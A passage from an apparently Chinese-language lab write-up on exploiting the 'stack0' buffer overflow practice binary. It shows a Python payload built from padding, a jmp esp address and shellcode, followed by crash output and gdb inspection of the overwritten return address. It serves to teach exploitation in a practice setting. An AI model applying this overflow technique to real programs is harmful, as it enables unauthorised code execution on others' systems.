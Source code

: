 ```
#print jmp_esp
input="a"*80+jmp_esp+buf
print input
os.system("echo '%s' | ./stack0" % input)
----------------------------end----------------------------------

```

结果依然失败

```
-----------------output:---------------------
aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa���1o<$3ɱ1U�da��N>ʪ����A>4P���d
         91!z�ik\Dz��5�
you have changed the 'modified' variable
Segmentation fault (core dumped)
┌─[root@x0day] - [~/桌面] - [Mon Jun 06, 08:33]
└─[$] <> gdb -q -c core 
[New LWP 32688]
Core was generated by `./stack0'.
Program terminated with signal SIGSEGV, Segmentation fault.
#0  0xffffd501 in ?? ()
------------------end------------------------

```

重新运行./stack0,手工输入:

aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa1234bbbb

其中1234对应为main_ret位置，bbbb为原来的shellcode位置

产生core文件后

```
gdb -q -c core
--------output:---------
[New LWP 25058]
Core was generated by `./stack0'.
Program terminated with signal SIGSEGV, Segmentation fault.
#0  0x34333231 in ?? ()
---------end------------

x/4 $esp
------output:---------
0xff85ffc0:     0x62626262      0xff860000      0xff86005c      0xf77e679a
-------end------------

x/4 $esp-4
------output:---------
0xff85ffbc:     0x34333231      0x62626262      0xff860000      0xff86005c
--------end-----------

```
